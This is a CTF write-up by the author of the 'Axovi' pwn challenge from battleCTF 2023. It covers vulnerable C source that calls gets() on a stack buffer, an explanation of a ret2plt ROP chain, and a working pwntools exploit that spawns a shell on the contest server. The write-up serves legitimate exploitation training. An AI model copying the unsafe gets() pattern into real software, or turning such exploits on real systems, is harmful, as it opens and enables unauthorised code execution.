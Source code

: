 # Axovi Writeup [Pwn]

Attached file:[axovi](datas/axovi)

Africa battleCTF 2023 challenge, i wrote this pwn challenge for battleCTF 2023.

This challenge involves exploiting a simple C program that uses unsafe functions like gets, leading to a buffer overflow vulnerability. Participants are tasked with executing arbitrary commands on the server by exploiting a `ret2plt` attack.

#### Source Code Analysis:

```c
//gcc -o axovi axovi.c -no-pie
#include <stdio.h>
#include <stdlib.h>

int main(){

    system( "echo 'Welcome to Africa battleCTF.\nTell us something about : '" );
    char buf[0x30];
    gets( buf );

    return 0;
}

```

Output of checksec

![Checksec](datas/checksec.png)

Section 

![section](datas/section.png)

> [!IMPORTANT]  
> * **Buffer Overflow Vulnerability**: The gets function does not check the input length, allowing stack overflow if the input exceeds `48 bytes` (0x30).
>
> * **No Stack Protection**: The program lacks stack canaries or other protections.
>
> * **Fixed Executable Layout**: The binary is compiled without `PIE` (`-no-pie`), meaning function addresses like `system` and `gets` are fixed.
>
> * **Writable Memory**: The `.data` segment (0x404028) can be used to store strings passed later to `system`.



#### Exploitation Plan:

1. Overflow the Buffer: Construct a payload to overwrite the `saved return pointer` of the function.

2. ROP Chain with `ret2plt`:

		* Redirect execution to `gets()` to store a command (e.g., `/bin/sh`) in a `writable memory` location.

		* Redirect execution to `system()` with the address of the stored command.

3. Send the Payload: Deliver the payload and trigger the exploit.



#### Understanding ret2plt:

The ret2plt (return-to-Procedure Linkage Table) attack leverages functions in the binary's `PLT (Procedure Linkage Table)` to perform arbitrary actions. Unlike code injection, `ret2plt` relies on legitimate code already present in the program.

##### Gadgets and Addresses Used:

* **pop_rdi (0x4011bb)**: Loads the address of writable memory into the `RDI` register (first argument for gets and system).

* **gets@plt (0x401040)**: Used to read a command and store it in memory.

* **system@plt (0x401030)**: Used to execute the stored command.

* **writable_mem (0x404028)**: `.data` segment used to store the `/bin/sh` string.

![poprdi](datas/poprdi.png)

![function](datas/functions.png)

##### Constructing the Payload:

1. Overflow the buffer with 0x30 (`48 bytes`) plus 8 bytes for the saved base pointer (`RBP`).

2. Build a ROP chain:

	* `pop_rdi` -> `writable_mem` (to prepare the input for `gets`).

	* Call `gets()` to store the command (`/bin/sh`).

	* `pop_rdi` -> `writable_mem` (to prepare the argument for system).

	* Call `system()` with `/bin/sh`.


#### Exploit Code:

```python
from pwn import *

context.arch = 'amd64'

sh = process('./axovi')

if args.REMOTE:
	sh = remote("pwn.battlectf.online", 1002)

# Gadgets and addresses

pop_rdi =  0x00000000004011bb # pop rdi ; ret
gets_plt = 0x401040 # gets@plt
system_plt = 0x401030 # system@plt
writable_mem = 0x404028 # .data

# Building the payload
payload = b'a' * (0x30 + 8)  # Buffer overflow and overwrite return pointer
payload += p64(pop_rdi)       # Load writable memory address
payload += p64(writable_mem)
payload += p64(gets_plt)      # Call gets() to store /bin/sh
payload += p64(pop_rdi)       # Load writable memory address
payload += p64(writable_mem)
payload += p64(system_plt)    # Call system() with /bin/sh

# Interacting with the target
print(sh.recv().decode())
sh.sendline(payload)          # Send the payload
sh.sendline(b"/bin/sh")       # Provide the command to gets()
sh.interactive()              # Switch to interactive mode
```

![Exploit](datas/exploit.png)

#### Final Notes:

This challenge introduces participants to ret2plt exploitation, teaching:

* Buffer overflow analysis.

* Using ROP gadgets to achieve arbitrary command execution.
